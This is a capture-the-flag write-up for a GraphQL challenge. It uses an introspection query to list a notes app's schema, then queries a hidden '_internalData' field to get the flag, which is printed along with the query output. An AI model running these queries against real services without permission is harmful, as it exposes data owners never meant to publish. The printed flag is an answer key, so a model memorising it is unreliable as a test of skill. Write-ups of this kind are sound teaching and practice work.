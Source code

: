 # The Restricted Section

**Description**: The Hogwarts library conceals forbidden knowledge. Unravel its hidden structure to reveal the secrets within. Do you dare?

**Link**: `https://notes.kjsse.com/`

## Solution

This just looks like a regular notes app, giving output according to the note ID.

<figure><img src="./imgs/open.png"></figure>

Looking at the request structure, The backend is running on graphql.

<figure><img src="./imgs/request.png"></figure>

On enumerating the the `schema` we get the following response.

`query={__schema{types{name,fields{name}}}}`

Response:

```json
{
  "data": {
    "__schema": {
      "types": [
        {
          "name": "Note",
          "fields": [
            { "name": "id" },
            { "name": "content" },
            { "name": "_internalData" }
          ]
        },
        { "name": "ID", "fields": null },
        { "name": "String", "fields": null },
        {
          "name": "Query",
          "fields": [
            { "name": "noteById" },
            { "name": "allNotes" },
            { "name": "_getFlag" }
          ]
        },
        { "name": "Boolean", "fields": null },
        {
          "name": "__Schema",
          "fields": [
            { "name": "description" },
            { "name": "types" },
            { "name": "queryType" },
            { "name": "mutationType" },
            { "name": "subscriptionType" },
            { "name": "directives" }
          ]
        },
        {
          "name": "__Type",
          "fields": [
            { "name": "kind" },
            { "name": "name" },
            { "name": "description" },
            { "name": "specifiedByURL" },
            { "name": "fields" },
            { "name": "interfaces" },
            { "name": "possibleTypes" },
            { "name": "enumValues" },
            { "name": "inputFields" },
            { "name": "ofType" },
            { "name": "isOneOf" }
          ]
        },
        { "name": "__TypeKind", "fields": null },
        {
          "name": "__Field",
          "fields": [
            { "name": "name" },
            { "name": "description" },
            { "name": "args" },
            { "name": "type" },
            { "name": "isDeprecated" },
            { "name": "deprecationReason" }
          ]
        },
        {
          "name": "__InputValue",
          "fields": [
            { "name": "name" },
            { "name": "description" },
            { "name": "type" },
            { "name": "defaultValue" },
            { "name": "isDeprecated" },
            { "name": "deprecationReason" }
          ]
        },
        {
          "name": "__EnumValue",
          "fields": [
            { "name": "name" },
            { "name": "description" },
            { "name": "isDeprecated" },
            { "name": "deprecationReason" }
          ]
        },
        {
          "name": "__Directive",
          "fields": [
            { "name": "name" },
            { "name": "description" },
            { "name": "isRepeatable" },
            { "name": "locations" },
            { "name": "args" }
          ]
        },
        { "name": "__DirectiveLocation", "fields": null }
      ]
    }
  }
}
```

The interesting field over here is `_internalData`.
`query { noteById(id: \"1\") { id content _internalData } }`

We get the following response.

```json
{
  "data": {
    "noteById": {
      "id": "1",
      "content": "This is note 1.",
      "_internalData": "KJSSE_CTF{gr4phq1_qu3ry_f0r_1h3_w1n!}"
    }
  }
}
```

## Flag

```
KJSSE_CTF{gr4phq1_qu3ry_f0r_1h3_w1n!}
```
